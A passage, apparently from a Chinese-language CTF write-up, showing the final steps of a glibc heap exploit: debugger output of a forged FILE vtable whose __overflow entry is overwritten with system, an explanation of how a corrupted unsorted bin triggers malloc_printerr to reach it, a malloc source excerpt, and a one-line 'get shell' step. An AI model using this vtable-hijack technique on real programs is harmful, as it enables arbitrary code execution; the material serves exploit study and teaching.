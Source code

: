 修改结果如下

```sh
pwndbg> p *((struct _IO_FILE_plus*)0x5555557584f0).vtable
$2 = {
  __dummy = 93824994346440, 
  __dummy2 = 0, 
  __finish = 0x0, 
  __overflow = 0x7ffff7a52390 <__libc_system>, #成功修改为system
  __underflow = 0x0, 
  __uflow = 0x0, 
  __pbackfail = 0x0, 
  __xsputn = 0x0, 
  __xsgetn = 0x0, 
  __seekoff = 0x0, 
  __seekpos = 0x0, 
  __setbuf = 0x0, 
  __sync = 0x0, 
  __doallocate = 0x0, 
  __read = 0x0, 
  __write = 0x0, 
  __seek = 0x0, 
  __close = 0x0, 
  __stat = 0x0, 
  __showmanyc = 0x0, 
  __imbue = 0x0
}

```

### getshell

再次申请 0x10的时候, 由于unsorted bin 的结构已经被修改, 0x10 <= 2*SIZE_SZ，就会触发malloc_printerr,然后就开始执行各种已经布局好的各种trick,最终执行到system get shell

```c
for (;; )
    {
      int iters = 0;
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
        {
          bck = victim->bk;
          if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
              || __builtin_expect (victim->size > av->system_mem, 0))
            malloc_printerr (check_action, "malloc(): memory corruption",// 执行该函数
                             chunk2mem (victim), av);
          size = chunksize (victim);
```



```python
sl('1') #get shell
```

